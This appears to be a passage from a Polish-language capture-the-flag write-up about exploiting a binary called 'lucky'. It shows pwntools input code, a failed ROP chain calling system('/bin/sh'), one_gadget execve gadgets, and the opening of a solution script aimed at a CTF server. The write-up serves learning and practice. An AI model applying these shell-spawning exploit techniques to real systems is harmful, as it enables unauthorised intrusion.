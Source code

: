 ```py
        # Konwersja na łańcuchy znaków zakodowane jako bajty:
        low_bytes  = str(low).encode()
        high_bytes = str(high).encode()

        # Wysyłanie wartości – przykładowo najpierw low, potem high:        
        p.sendlineafter(b'Enter new number:', low_bytes)
        p.sendlineafter(b'Enter new number:', high_bytes)
```
# Payload z system (libc)
OK, wrzucamy payload, ale coś nie działa. Dlaczego? Przecież wstawiamy pop rdi, a w rdi ustawiamy /bin/sh. Następny ROP to wywołanie system. Dlaczego to nie działa??? Nie wiem.
{: .text-justify}
```bash
0:0000│ rsp 0x7ffe808271c8 —▸ 0x7f9c6b9d5679 ◂— ret
01:0008│     0x7ffe808271d0 —▸ 0x7f9c6b9d6b72 ◂— pop rdi
02:0010│     0x7ffe808271d8 —▸ 0x7f9c6bb675aa ◂— 0x68732f6e69622f /* '/bin/sh' */
03:0018│     0x7ffe808271e0 —▸ 0x7f9c6ba05410 (system) ◂— endbr64
04:0020│     0x7ffe808271e8 ◂— 0x2400000048 /* 'H' */
```
```bash
pwndbg> c
Continuing.
[Attaching after process 66286 vfork to child process 66366]
[New inferior 2 (process 66366)]
[Detaching vfork parent process 66286 after child exit]
[Inferior 1 (process 66286) detached]
[Inferior 2 (process 66366) exited with code 0177]
```
# Payload z one_gadget
Spróbujmy z `one_gadget`. Jest! Tylko trzeba wyzerowac `R12`, ale na to jest jakiś `ROP`.
{: .text-justify}
```bash
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
# Rozwiązanie
```py
from pwn import *             
#context.log_level='debug'    

context.update(arch='x86_64', os='linux') 
context.terminal = ['wt.exe','wsl.exe'] 

HOST="34.252.33.37:31128"
ADDRESS,PORT=HOST.split(":")

BINARY_NAME="./lucky_patched"
binary = context.binary = ELF(BINARY_NAME, checksec=False)
```